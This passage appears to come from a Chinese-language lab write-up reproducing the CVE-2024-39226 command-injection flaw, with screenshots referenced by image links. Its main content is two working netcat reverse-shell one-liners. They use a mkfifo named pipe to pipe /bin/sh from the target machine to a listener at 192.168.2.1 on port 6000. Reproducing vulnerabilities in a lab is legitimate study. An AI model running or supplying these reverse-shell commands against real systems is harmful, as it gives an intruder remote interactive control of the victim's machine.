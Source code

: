 ![image-20250221212823635](./assets/CVE-2024-39226命令注入/image-20250221212823635.png)



反弹 shell： mkfifo：创建 FIFO 特殊文件（命名管道）

利用 nc：

靶机：

```shell
mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.2.1 6000 > /tmp/f ; rm /tmp/f
```

![image-20250221234001552](./assets/CVE-2024-39226命令注入/image-20250221234001552.png)

```shell
mkfifo /tmp/f; /bin/sh -i 2>&1 < /tmp/f | nc 192.168.2.1 6000 > /tmp/f ; rm /tmp/f
```

![image-20250221234235296](./assets/CVE-2024-39226命令注入/image-20250221234235296.png)
